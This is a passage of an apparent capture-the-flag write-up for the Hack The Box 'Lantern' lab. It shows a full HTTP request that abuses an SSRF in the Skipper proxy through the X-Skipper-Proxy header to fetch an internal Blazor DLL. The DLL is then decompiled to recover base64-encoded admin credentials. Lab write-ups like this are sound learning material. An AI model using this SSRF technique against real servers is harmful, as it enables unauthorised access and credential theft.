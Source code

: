 * Attempted RCE via PDF injection but it was unsuccessful.
* Focused on port 3000.

Discovered endpoints while inspecting the console log of `http://lantern.htb:3000`:

```js
<script src="_framework/blazor.server.js"></script>
```

```txt
Information: WebSocket connected to ws://lantern.htb:3000/_blazor?id=zuxDM5hIB0lArsgccqNQkw.
```

#### BurpSuite Extension

* Found a Blazor exploit Burp Suite extension [here](https://www.aon.com/cyber-solutions/aon\_cyber\_labs/new\_burp\_suite\_extension\_blazortrafficprocessor/).

Based on HTB Forum hints:

* SSRF on port 80:3000. [Skipper Proxy](https://www.exploit-db.com/raw/51111)
* Accessing `/_framework/blazor.boot.json` reveals all Blazor DLLs.
* Download `InternaLantern.dll` through SSRF.

```
https://www.exploit-db.com/raw/51111
```

Intercept the DLL request using Skipper Proxy:

```http
GET /_framework/InternaLantern.dll HTTP/1.1 
Host: lantern.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
X-Skipper-Proxy: http://127.0.0.1:5000
Referer: http://lantern.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: keep-alive
```

Successfully downloaded the DLL file by requesting response in browser.

### Decompiling DLL File

Use JetBrains DotPeek to browse the DLL.

![image](https://github.com/user-attachments/assets/f60f42b1-d082-425b-a254-e82e586258d1)

In `InternaLanding.Pages/Internal`, find base64 encoded employee details. Decode using [CyberChef](https://gchq.github.io/CyberChef).

```base64
"U3lzdGVtIGFkbWluaXN0cmF0b3IsIEZpcnN0IGRheTogMjEvMS8yMDI0LCBJbml0aWFsIGNyZWRlbnRpYWxzIGFkbWluOkFKYkZBX1FAOTI1cDlhcCMyMi4gQXNrIHRvIGNoYW5nZSBhZnRlciBmaXJzdCBsb2dpbiE="
```
